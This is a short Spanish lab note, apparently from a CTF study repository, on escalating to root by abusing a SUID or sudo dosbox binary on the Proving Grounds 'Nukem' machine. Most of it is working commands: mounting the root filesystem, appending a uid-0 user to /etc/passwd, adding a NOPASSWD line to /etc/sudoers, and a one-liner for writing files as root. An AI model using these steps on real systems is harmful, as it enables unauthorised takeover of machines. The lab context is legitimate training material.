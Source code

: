 ## DESCRIPTION

Dos box nos permite montar un directorio, en este caso como root. O bien escribir en un fichero como root tambien.


#### Mas información
* https://kashz.gitbook.io/proving-grounds-writeups/pg-boxes/nukem/5-privesc-dosbox
* https://gtfobins.github.io/gtfobins/dosbox/


## EXPLOITATION

ENUMERAMOS Y ENCONTRAMOS QUE TIENE EL BINARIO DOSBOX CON SUID, tambien vale para sudo

### OPTION 1: DESDE INTERFAZ DE DOSBOX

Si hemos ganado acceso usando vnc o alguno de estos lo podemos usar:

```
# running /usr/bin/dosbox

# opens a dosbox cmd prompt

# looks like windows

Using https://linux.die.net/man/1/dosbox

# searching for suid /usr/bin/dosbox > https://github.com/liwuqi/huck-box/blob/master/my_notes

# we can mount file system using MOUNT <drive> <path>

Z:\> MOUNT k /

Mounting / is NOT recommended. Please mount a (sub)directory next time.

Drive k is mounted as local directory /.

Z:\> k:

# we are now under / filesystem

# can read /root/proof.txt flag but we need interactive shell

# changing /etc/passwd

K:\> echo 'kashz:cAZZtf3ncxRAY:0:0:root:/root:/bin/bash' >> /etc/passwd

[commander@nukem ~]$ su kashz

Password:

Warning: your password will expire in 32558 days.

: No such file or directorybash

# not working

# lets add commander to sudoers

K:\> echo commander ALL=(ALL) NOPASSWD:ALL >> /etc/sudoers

# via ssh shell

[commander@nukem ~]$ sudo su

[root@nukem commander]# whoami;id;hostname

root

uid=0(root) gid=0(root) groups=0(root)

nukem
```

### OPTION 2: DESDE UNA CMD

```
./dosbox -c 'mount c /' -c "echo DATA >c:$LFILE" -c exit
```

Muy util para escribir en /etc/passwd un usuario o en sudoers como en el anterior pero oneliner


## MACHINES

* Hack The Box: 
* PG: Nukem

**!!NOTA IMPORTANTE!!** 